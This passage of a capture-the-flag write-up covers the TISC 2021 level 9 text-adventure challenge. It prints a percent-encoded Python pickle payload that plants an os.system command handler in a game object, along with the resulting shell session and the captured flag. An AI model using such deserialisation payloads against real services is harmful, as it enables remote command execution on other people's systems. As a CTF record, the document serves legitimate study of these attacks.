 ```
Smoke bellows from the lips of shell.item to form the words, "%80%04%95%2e%02%00%00%00%00%00%00%8c%0a%72%61%62%62%69%74%68%6f%6c%65%94%8c%04%49%74%65%6d%94%93%94%29%81%94%7d%94%28%8c%03%6b%65%79%94%8c%05%73%68%65%6c%6c%94%8c%06%6f%6e%5f%67%65%74%94%8c%0a%64%69%6c%6c%2e%5f%64%69%6c%6c%94%8c%0a%5f%6c%6f%61%64%5f%74%79%70%65%94%93%94%8c%0a%4d%65%74%68%6f%64%54%79%70%65%94%85%94%52%94%68%08%8c%10%5f%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e%94%93%94%28%68%08%8c%0c%5f%63%72%65%61%74%65%5f%63%6f%64%65%94%93%94%28%4b%01%4b%00%4b%00%4b%02%4b%06%4b%43%43%3a%7a%26%74%00%64%01%83%01%a0%01%64%02%a1%01%7d%01%74%02%a0%03%7c%01%a1%01%01%00%74%04%6a%05%a0%06%a1%00%01%00%57%00%71%00%01%00%01%00%01%00%59%00%71%00%30%00%71%00%64%03%53%00%94%28%8c%2c%41%64%64%20%74%68%65%20%6f%70%74%69%6f%6e%73%20%63%6f%6d%6d%61%6e%64%20%77%68%65%6e%20%70%69%63%6b%65%64%20%75%70%2e%0a%20%20%20%20%94%8c%02%3e%20%94%8c%01%0a%94%4e%74%94%28%8c%08%72%65%61%64%6c%69%6e%65%94%8c%06%72%73%74%72%69%70%94%8c%02%6f%73%94%8c%06%73%79%73%74%65%6d%94%8c%03%73%79%73%94%8c%06%73%74%64%6f%75%74%94%8c%05%66%6c%75%73%68%94%74%94%8c%04%73%65%6c%66%94%8c%07%63%6f%6d%6d%61%6e%64%94%86%94%8c%24%2f%68%6f%6d%65%2f%61%6d%61%72%6f%6b%2f%74%69%73%63%2f%6c%65%76%65%6c%39%2f%6c%65%76%65%6c%39%2d%32%2e%70%79%94%8c%0c%73%68%65%6c%6c%5f%6f%6e%5f%67%65%74%94%4b%1d%43%0c%00%04%02%01%0e%01%0a%01%0e%01%06%01%94%29%29%74%94%52%94%7d%94%28%8c%02%6f%73%94%68%08%8c%0e%5f%69%6d%70%6f%72%74%5f%6d%6f%64%75%6c%65%94%93%94%68%19%85%94%52%94%8c%03%73%74%72%94%68%0a%8c%03%73%74%72%94%85%94%52%94%8c%04%74%79%70%65%94%68%0a%8c%04%74%79%70%65%94%85%94%52%94%8c%03%73%79%73%94%68%2a%8c%03%73%79%73%94%85%94%52%94%8c%08%72%65%61%64%6c%69%6e%65%94%68%00%68%17%93%94%75%68%23%4e%4e%7d%94%4e%74%94%52%94%68%03%86%94%52%94%75%62%2e."
Curling and curling...
The words float up high into the air and eventually disappate.
[vast-emptiness] $ teleport ../../logs
You have moved to a new location: 'logs'.

You look around and see:
Darkness fills your senses. Nothing can be discerned from your environment.
There are the following things here:
  * vast-emptiness-shell (item)
  * logs-Alice (note)

[logs] $ get vast-emptiness-shell
You pick up 'shell'.
> /home/rabbit/flag2.bin
TISC{dr4b_4s_a_f00l_as_al00f_a5_A_b4rd}
```

**Flag 2 (25 points):** `TISC{dr4b_4s_a_f00l_as_al00f_a5_A_b4rd}`

***
<br>

![level 9-3 flavourtext](/assets/tisc-2021/desc_9c.png)

I did not solve this challenge, as I wasn't even on the right track.

I had earlier made note of the blatant `Curling and curling...` hint to use `curl`, but for some reason it never really crossed my mind that I could use the shell I just obtained to directly issue requests to the server without having to adhere to the format or location mandated by `blowsmoke`.

Instead, not really motivated at this point, I aimlessly wandered the filesystem until I got bored and eventually called it a day.

You can read the challenge creator's writeup for all 4 parts of this challenge [here](https://nandynarwhals.org/tisc-2021-1865-text-adventure/).
